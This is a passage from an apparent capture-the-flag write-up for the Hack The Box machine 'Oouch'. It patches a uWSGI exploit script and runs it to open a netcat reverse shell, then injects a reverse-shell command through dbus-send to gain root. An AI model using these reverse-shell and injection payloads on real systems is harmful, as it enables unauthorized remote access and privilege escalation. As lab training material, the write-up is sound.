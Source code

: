 The sz function requires a small change 

```py
def sz(x):
    s = hex(x if isinstance(x, int) else len(x))[2:].rjust(4, '0')
    s = bytes.fromhex(s) 
    return s[::-1]
```

First we need to transfer uwsgi_exp.py and nc to /tmp in the docker container, then run

```bash
python ./uwsgi_exp.py -m unix -u /tmp/uwsgi.socket -c "/tmp/nc -e /bin/bash 172.18.0.1 1234"
```

We listen on oouch as qtc and get a shell as user www-data, this user can run dbus-send.

We can now use dbus send to get a shell as root, listening on port 9002 on the attacking machine run:

```bash
dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block  htb.oouch.Block.Block "/bin/bash -i 2>&1 | nc 10.10.14.53 9002 >/tmp/.0;"
```

```bash
root@oouch:/root# cat root.txt
```